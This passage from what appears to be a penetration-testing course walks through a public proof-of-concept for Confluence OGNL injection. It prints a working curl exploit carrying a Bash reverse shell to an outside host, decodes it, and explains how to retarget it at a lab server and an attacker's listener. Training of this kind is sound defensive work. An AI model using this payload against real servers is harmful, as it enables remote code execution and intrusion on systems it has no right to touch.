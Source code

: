 ```
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

> Listing 1 - The example payload from the Rapid7 blog post.

We don't run payloads without understanding exactly what they do, so we first need to figure out what's happening in this proof-of-concept.

The verbose (**\-v**) **curl** request is being made to **http://10.0.0.28:8090**, which we assume is the blogpost author's vulnerable Confluence server. After this, the URL [_path_](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier#Syntax) looks more interesting. We observe that a lot of the characters in it are [_URL encoded_](https://en.wikipedia.org/wiki/Percent-encoding), so we need to _URL decode_ them to get a clearer sense of what the payload actually does.

You can quickly URL decode strings by selecting _Decode As..._ > _URL_ in the _Decoder_ tab in [_Burp_](https://portswigger.net/burp), or using an online tool such as [_CyberChef_](https://gchq.github.io/CyberChef/) If working with sensitive information in a real corporate environment, you should avoid pasting data into online tools. However, in this case we're decoding a proof-of-concept that's already public, so we can use online tools if necessary.

After URL decoding the path, the function of the payload is clearer.

```
/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/
```

> Listing 2 - The example payload URL-decoded.

The URL path is an _OGNL injection_ payload. OGNL is [_Object-Graph Notation Language_](https://en.wikipedia.org/wiki/OGNL), an expression language commonly used in Java applications. OGNL injection can take place when an application handles user input in such a way that it gets passed to the OGNL expression parser. Since it's possible to execute Java code within OGNL expressions, OGNL injection can be used to execute arbitrary code.

The OGNL injection payload itself uses Java's [_ProcessBuilder_](https://docs.oracle.com/javase/7/docs/api/java/lang/ProcessBuilder.html) class to spawn a _Bash_ interactive reverse shell (_bash -i_).

This proof-of-concept payload is almost perfect for our needs. However, we need to modify it before we can use it. This is for two reasons. First, the Confluence server that the payload is pointing to in the original payload is not where our vulnerable Confluence server is. Second, the Bash reverse shell payload is pointing at port 1270 on 10.0.0.28, which is not where our Kali machine is. We need to modify these parameters in the payload before we can reuse it to exploit CONFLUENCE01 and return a shell to our own Kali machine.

While making these modifications, we also need to take the URL encoding into account. The payload string in the proof-of-concept isn't completely URL encoded. Certain characters (notably ".", "-" and "/") are not encoded. Although it's not always the case, for _this_ exploit, this turns out to be important to the functioning of the payload. If any of these characters are encoded, the server will parse the URL differently, and the payload may not execute. This means we can't apply URL encoding across the whole payload once we've modified it.

Keeping this in mind, we'll manually modify the parameters we need, using the original proof-of-concept payload as our base. We can change the Confluence server IP to **192.168.50.63**, and the Bash interactive shell payload IP and port to a listener we're going to open on our Kali machine (**/dev/tcp/192.168.118.4/4444**). We'll also remove the **curl** verbosity flag. This leaves us with the following modified payload:
